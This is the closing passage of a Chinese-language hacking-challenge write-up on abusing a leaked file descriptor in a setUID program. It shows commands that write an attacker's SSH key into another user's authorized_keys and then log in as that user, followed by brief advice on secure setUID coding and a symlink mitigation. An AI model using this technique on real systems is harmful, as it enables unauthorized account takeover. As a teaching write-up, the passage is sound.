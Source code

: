 ```
bob@challenge:~$ ./write 3 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2PezJjFSI778OvONA5aqfM2Y2d0eYizOkcqTimy7dXfaEhSKnRSRyfwOfwOOaVpLdZW9NmfaPd5G8RY3n+3QwDIPv4Aw5oV+5Q3C3FRG0oZoe0NqvcDN8NeXZFbzvcWqrnckKDmm4gPMzV1rxMaRfFpwjhedyai9iw5GtFOshGZyCHBroJTH5KQDO9mow8ZxFKzgt5XwrfMzvBd+Mf7kE/QtD40CeoNP+GsvNZESxMC3pWfjZet0p7Jl1PpW9zAdN7zaQPH2l+GHzvgPuZDgn+zLJ4CB69kGkibEeu1c1T80dqDDL1DkN1+Kbmop9/5gzOYsEmvlA4DQC6nO9NCTb bob@challenge'
 writing ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2PezJjFSI778OvONA5aqfM2Y2d0eYizOkcqTimy7dXfaEhSKnRSRyfwOfwOOaVpLdZW9NmfaPd5G8RY3n+3QwDIPv4Aw5oV+5Q3C3FRG0oZoe0NqvcDN8NeXZFbzvcWqrnckKDmm4gPMzV1rxMaRfFpwjhedyai9iw5GtFOshGZyCHBroJTH5KQDO9mow8ZxFKzgt5XwrfMzvBd+Mf7kE/QtD40CeoNP+GsvNZESxMC3pWfjZet0p7Jl1PpW9zAdN7zaQPH2l+GHzvgPuZDgn+zLJ4CB69kGkibEeu1c1T80dqDDL1DkN1+Kbmop9/5gzOYsEmvlA4DQC6nO9NCTb bob@challenge to fd 3
```

### <a class="reference-link" name="%E6%AD%A5%E9%AA%A43%EF%BC%9A%E9%80%9A%E8%BF%87SSH%E7%99%BB%E5%BD%95"></a>步骤3：通过SSH登录

```
bob@challenge:~$ ssh -i bobkey tom@localhost
$ id
uid=1002(tom) gid=1002(tom) groups=1002(tom)
```

我们完成了。我们利用泄露的文件描述符将我们选择的数据写入目标用户（在本例是tom）的authorized_keys文件。在这个过程中，我们使用了一种有点不切实际的符号链接攻击，但这并不会使我们关于如何使用和滥用泄漏的文件描述符的讨论无效。



## 结论

黑客挑战很有趣。即使是你不小心找到了一个更难的解决方案，并且浪费的时间比需要的长10倍。

编写安全的setUID程序可能很困难，特别是在生成子进程时，或者在其他用户可写的目录中使用open()时。 users. fs.protected_symlinks为设置了粘滞位(sticky bit)的文件夹提供了一些缓解措施。

审核人：yiwang   编辑：边边
